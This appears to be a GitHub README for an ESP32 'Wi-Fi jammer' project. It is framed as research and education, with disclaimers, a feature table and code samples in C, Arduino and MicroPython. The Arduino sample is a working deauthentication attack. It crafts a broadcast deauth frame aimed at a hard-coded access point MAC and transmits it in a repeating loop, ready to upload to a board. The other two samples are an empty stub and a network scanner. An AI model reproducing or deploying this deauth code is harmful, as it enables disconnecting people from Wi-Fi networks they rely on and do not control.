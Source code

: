 ESP32 Wi-Fi Jammer (Research & Education Only)

Disclaimer:
This project is strictly for educational and research purposes only.
Unauthorized interference with Wi-Fi networks is illegal and may lead to serious consequences.
Use only in controlled lab environments and on your own networks.

About

This repository showcases how basic Wi-Fi “jammer” functionalities can be prototyped on an ESP32 using multiple languages (C/C++, Arduino, MicroPython).
The main goal is to demonstrate concepts like network scanning and the deauthentication (deauth) mechanism.

| Feature                     | C/C++ (ESP-IDF) | Arduino | MicroPython |
| --------------------------- | :-------------: | :-----: | :---------: |
| Wi-Fi Network Scanning      |       Yes       |   Yes   |     Yes     |
| Deauth Packet Concept       |       Yes       |   Yes   |      No     |
| Easy-to-Modify Example Code |       Yes       |   Yes   |     Yes     |

Requirements

ESP32 development board

USB cable

ESP-IDF
 or Arduino IDE

(Optional) MicroPython firmware

Usage

1. Navigate to the language folder of your choice.

2. Follow the README instructions inside.

3. Upload the code to your ESP32.

Example Codes
C/C++ (ESP-IDF) — Basic Deauth

// main/wifi_deauth.c
#include "esp_wifi.h"
#include "esp_event.h"
#include "esp_log.h"
#include "nvs_flash.h"

void app_main() {
    // Wi-Fi initialization and deauth packet sending logic.
    // See ESP-IDF docs for details.
    // Real deauth requires crafting & sending raw packets.
}
Arduino — Wi-Fi Jammer

#include <WiFi.h>
#include <esp_wifi.h>

// Deauthentication packet structure (26 bytes)
uint8_t deauthPacket[26] = {
  0xc0, 0x00, // Type: Deauth
  0x3a, 0x01, // Duration
  0xff, 0xff, 0xff, 0xff, 0xff, 0xff, // Destination: Broadcast
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // Source (BSSID)
  0x00, 0x00, 0x00, 0x00, 0x00, 0x00, // BSSID
  0x00, 0x00, // Frag & Seq number
  0x07, 0x00  // Reason code: Class 3 frame received from non-associated STA
};

void setup() {
  Serial.begin(115200);
  WiFi.mode(WIFI_STA);
  esp_wifi_set_promiscuous(true);

  // Set the BSSID (target AP MAC address)
  uint8_t bssid[6] = {0x18, 0x3D, 0xA2, 0xEC, 0x32, 0x88};
  memcpy(&deauthPacket[10], bssid, 6);
  memcpy(&deauthPacket[16], bssid, 6);

  Serial.println("Starting deauth process...");
}

void loop() {
  for (int i = 0; i < 20; i++) {
    esp_wifi_80211_tx(WIFI_IF_STA, deauthPacket, sizeof(deauthPacket), false);
    delay(100);
  }
  delay(2000);
}

MicroPython — Network Scan
import network
import time

sta = network.WLAN(network.STA_IF)
sta.active(True)

while True:
    nets = sta.scan()
    print("Available Networks:")
    for net in nets:
        ssid = net[0].decode('utf-8')
        bssid = ':'.join('{:02x}'.format(b) for b in net[1])
        print("SSID:", ssid, "BSSID:", bssid, "RSSI:", net[3])
    time.sleep(10)

Notes

Use only in lab & research contexts

Do not use against real networks

Examples may require adjustments (libraries, configs, permissions)

License

MIT
